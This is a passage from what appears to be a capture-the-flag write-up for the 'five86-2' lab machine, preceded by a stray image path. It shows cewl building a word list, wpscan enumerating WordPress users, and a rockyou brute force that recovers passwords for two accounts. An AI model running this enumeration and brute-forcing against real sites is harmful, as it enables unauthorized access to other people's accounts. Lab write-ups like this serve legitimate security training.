 ```bash
cewl -d 3 -w password.txt http://five86-2
```

The generated word list isn't extensive, and I'm uncertain if it will yield any valid credentials. In case it doesn't produce any results, I plan to run the `rockyou` word list for a more comprehensive attempt.

```bash
wpscan --enumerate --passwords password.txt --url five86-2

[+] URL: http://five86-2/ [192.168.197.136]
[+] Started: Fri Nov 10 22:11:22 2023

Interesting Finding(s):

[+] WordPress version 5.1.4 identified (Insecure, released on 2019-12-12).

[+] WordPress theme in use: twentynineteen

[+] Enumerating Vulnerable Plugins (via Passive Methods)

[i] No plugins Found.

[i] No themes Found.

[i] No Timthumbs Found.

[i] No Config Backups Found.

[i] No DB Exports Found.

[i] No Medias Found.

[i] User(s) Identified:

[+] admin
[+] barney
[+] gillian
[+] peter
[+] stephen

[i] No Valid Passwords Found.
```

As anticipated, WPScanner provided valid usernames, but unfortunately, no corresponding passwords. To address this, I intend to rerun WPScanner, this time utilizing the `rockyou` file.

```bash
wpscan --url five86-2 --passwords /usr/share/wordlists/rockyou.txt
---snip---
[+] Valid Combinations Found:
 | Username: barney, Password: spooky1
 | Username: stephen, Password: apollo1
```

